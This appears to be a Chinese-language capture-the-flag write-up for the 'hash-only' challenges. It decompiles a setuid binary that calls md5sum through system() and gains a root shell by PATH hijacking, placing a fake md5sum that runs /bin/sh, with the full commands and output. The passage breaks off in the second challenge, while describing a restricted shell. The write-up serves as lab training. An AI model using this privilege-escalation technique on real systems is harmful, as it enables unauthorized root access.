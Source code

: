 ## hash-only-1
他讓我們會啟一個 instant 我們可以用 `ssh` 連進去，裡面有一個 binary 會算出 `flag.txt` 的 md5 checksum
```bash
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

87372b3f21242178d2bf22192541ab0c  /root/flag.txt
```

`flag.txt` 放在 `/root` 裡面，但我們沒有權限存取 `/root`
```bash
ctf-player@pico-chall$ cd /root
-bash: cd: /root: Permission denied
```

我們可以用他提供的 `scp` 來取得算 checksum 的 binary ，逆向分析後發現他會去呼叫 `system` 來執行 `/bin/bash -c \'md5sum /root/flag.txt\'`
```c++
...
  ((char *)local_48,(allocator *)"/bin/bash -c \'md5sum /root/flag.txt\'");
  std::allocator<char>::~allocator(&local_4d);
  setgid(0);
  setuid(0);
  __command = (char *)std::__cxx11::basic_string<>::c_str();
                    /* try { // try from 001013de to 00101423 has its CatchHandler @ 0010146d */
  local_4c = system(__command);
...
```

我試著去建立一個名字一樣是 `md5sum` 的檔案並在裡面加上 `/bin/sh` 並加上執行權限
```bash
ctf-player@pico-chall$ echo "/bin/sh" > md5sum 
ctf-player@pico-chall$ chmod +x md5sum
```

把他加入 `$PATH` 中，最後再次執行 `./flaghasher` 成功提權
```bash
ctf-player@pico-chall$ export PATH="/home/ctf-player:$PATH"
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

# whoami
root
```

## hash-only-2
和 `hash-only-1` 差不多，不過他把 `flaghasher` 移到了 `/usr/local/bin/` 底下
，還有預設的 shell 是他做的有限制輸入的字元
```bash
ctf-player@pico-chall$ which $SHELL
/bin/rbash
ctf-player@pico-chall$ ./test -rbash: ./test: restricted: cannot specify `/' in command names
```
